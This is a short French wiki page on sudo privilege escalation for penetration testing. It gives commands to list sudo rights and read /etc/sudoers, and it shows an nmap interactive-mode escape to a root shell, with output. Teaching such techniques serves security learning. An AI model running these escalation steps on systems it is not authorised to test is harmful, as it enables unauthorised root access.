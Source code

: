 ```yaml
---
title: Sudo
permalink: /Sudo/
---
```


# Sudo

Lister les sudoers
------------------

Il est possible de lister les sudoers avec les commandes suivantes:

``` bash
sudo -l
cat /etc/sudoers
```

sudo limité
-----------

Dans certains cas on peut lancer sudo uniquement sur certaines commandes. Il est parfois possible d'utiliser ces commandes pour obtenir un shell root. Par exemple, si on peut lancer nmap avec sudo:

``` bash
sudo nmap --interactive
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```


